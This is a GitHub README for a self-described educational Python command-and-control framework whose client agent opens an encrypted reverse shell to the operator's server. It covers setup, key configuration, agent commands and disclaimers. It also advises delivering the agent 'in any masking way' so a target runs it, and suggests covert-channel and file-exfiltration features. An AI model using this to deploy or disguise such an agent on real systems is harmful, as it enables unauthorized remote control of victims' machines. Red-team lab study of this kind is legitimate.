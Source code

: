 # Encrypted C2 Framework (Educational Project)

A simple, educational Command and Control (C2) framework built with Python. This project demonstrates core red teaming concepts including client-server architecture, reverse shell communication, multi-threading, and secure encrypted data transfer.

This project was developed for educational purposes to understand the inner workings of C2 infrastructure and is to be used only in controlled, legal lab environments.

**Disclaimer: Do not use this tool on any system or network without explicit, written permission. The author is not responsible for any misuse or damage caused by this software.**

## Features

* **Client-Server Architecture:** A central server manages multiple connected clients (agents).
* **Reverse Shell:** Clients initiate connections back to the server, making it effective for bypassing some firewall rules.
* **Multi-Client Handling:** The server uses multi-threading to handle connections from multiple agents simultaneously.
* **Encrypted Communication:** All commands and outputs are encrypted using symmetric AES encryption (`cryptography.fernet`) to prevent plaintext data from being intercepted by network sniffers.
* **Reliable Data Transfer:** Implements a length-prefixing protocol to ensure complete and reliable data transmission over the socket.
* **Improved Interactive Shell:** The client handles stateful commands like `cd` directly, providing a better user experience.

## Setup and Installation

### 1. **Prerequisites**

You need Python 3 installed on both your C2 server and client machines.

Install the required Python library:

```bash
pip install cryptography
```
### 2. **Lab Environment**

Set up a controlled network lab environment using virtual machines (e.g., VirtualBox, VMware, or Proxmox). You will need at least two machines:

* **Server Machine (Controller):** Your C2 server (e.g., Kali Linux, Ubuntu).
* **Client Machine (Agent/Victim):** The target machine where the client payload will run (e.g., Windows, Ubuntu).

Make sure the client machine can connect to the server machine over the network on the chosen port (**4444** by default).

### 3. **Generate Encryption Key**

Security is paramount. First, you need to generate a unique encryption key. Run the following Python script **once** on any machine:

```bash
# generate_key.py
from cryptography.fernet import Fernet
key = Fernet.generate_key()
print("Generated Key:", key.decode())
```

Copy the output key (e.g., **b'g_X4...='**). This is your secret key. Do not share it.

### 4. **Configuration**

Paste your generated key into the **ENCRYPTION_KEY** variable in both c2_server.py and c2_client.py.

**C2_server.py**

```bash
# ...
ENCRYPTION_KEY = b'PASTE_YOUR_GENERATED_KEY_HERE_AS_BYTES' 
# ...
```
**C2_client.py**

```bash
# ...
# IMPORTANT: Replace 'YOUR_C2_SERVER_IP' with your server's IP address.
HOST = 'YOUR_C2_SERVER_IP' 
PORT = 4444
# PASTE YOUR GENERATED KEY HERE IN BYTES FORMAT (b'...')
ENCRYPTION_KEY = b'PASTE_YOUR_GENERATED_KEY_HERE_AS_BYTES' 
# ...
```

### Usage

### 1. **Start the Server**

On your server machine, run the server script from your terminal:

```bash
python3 C2_server.py
```
The server will start listening for connections on the configured port.

```bash
[*] C2 server listening on 0.0.0.0:4444
```

### 2. **Run the client payload**

On your client machine, run the client script: (Try to deliver it in any masking way so that client will execute it)

```bash
python3 C2_client.py
```
The client will attempt to connect back to the C2 server.

```bash
[*] Attempting to connect to YOUR_C2_SERVER_IP:4444...
[*] Connected to C2 server at YOUR_C2_SERVER_IP:4444
```

### 3. **C2 Framework Commands**

This table provides a quick reference for the commands used to interact with the C2 server and its connected agents.

| Command | Description |
|---|---|
| `list` | Lists all connected agents with their IDs and IP addresses. |
| `interact <client_id>` | Enters a shell-like mode to send commands to a specific client. |
| `back` | (Inside `interact` mode) Returns to the main C2 command menu. |
| `exit` | Shuts down the C2 server and all active client connections. |

### Ethical Consideration and Security

This tool is created for **academic and ethical hacking** purposes only. The code should be used exclusively in isolated lab environments where you have full control and permission.

* **Legal Compliance:** Never use this code to access or control systems you do not own or have explicit authorization to test. Unauthorized access to computer systems is a crime.
* **Responsible Disclosure:** If you find vulnerabilities in real systems, follow responsible disclosure guidelines.
* **Security Best Practices:** The key is hardcoded in the script, which is a major security risk in real-world deployments. A production-ready tool would load the key from a secure configuration file or environment variable.
* **Evading Detection:** While encryption helps, this tool is still easily detectable by modern EDR and network security solutions due to its direct socket communication and use of **subprocess.run**. Real-world red teaming tools use more sophisticated evasion techniques.

### Contribution

Feel free to fork this repository, add features, or improve the code. Suggestions for enhancements are welcome, such as:

* Adding file upload/download capabilities.

* Implementing screenshot functionality.

* Using HTTPS for covert communication.

* Adding a more sophisticated command parser.

* Improving multi-client management.

### License 
This project is licensed under the MIT License.

